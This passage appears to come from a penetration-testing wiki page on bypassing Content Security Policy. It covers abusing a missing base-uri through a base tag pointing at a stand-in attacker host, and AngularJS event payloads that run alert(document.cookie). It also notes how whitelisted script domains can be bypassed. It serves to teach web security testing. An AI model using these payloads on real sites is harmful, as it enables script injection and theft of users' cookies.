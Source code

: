 Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Iframes JS execution

{{#ref}}
../xss-cross-site-scripting/iframes-in-xss-and-csp.md
{{#endref}}

### missing **base-uri**

If the **base-uri** directive is missing you can abuse it to perform a [**dangling markup injection**](../dangling-markup-html-scriptless-injection/index.html).

Moreover, if the **page is loading a script using a relative path** (like `<script src="/js/app.js">`) using a **Nonce**, you can abuse the **base** **tag** to make it **load** the script from **your own server achieving a XSS.**\
If the vulnerable page is loaded with **httpS**, make use an httpS url in the base.

```html
<base href="https://www.attacker.com/" />
```

### AngularJS events

A specific policy known as Content Security Policy (CSP) may restrict JavaScript events. Nonetheless, AngularJS introduces custom events as an alternative. Within an event, AngularJS provides a unique object `$event`, referencing the native browser event object. This `$event` object can be exploited to circumvent the CSP. Notably, in Chrome, the `$event/event` object possesses a `path` attribute, holding an object array implicated in the event's execution chain, with the `window` object invariably positioned at the end. This structure is pivotal for sandbox escape tactics.

By directing this array to the `orderBy` filter, it's possible to iterate over it, harnessing the terminal element (the `window` object) to trigger a global function like `alert()`. The demonstrated code snippet below elucidates this process:

```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

This snippet highlights the usage of the `ng-focus` directive to trigger the event, employing `$event.path|orderBy` to manipulate the `path` array, and leveraging the `window` object to execute the `alert()` function, thereby revealing `document.cookie`.

**Find other Angular bypasses in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### AngularJS and whitelisted domain

```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

A CSP policy that whitelists domains for script loading in an Angular JS application can be bypassed through the invocation of callback functions and certain vulnerable classes. Further information on this technique can be found in a detailed guide available on this [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22).
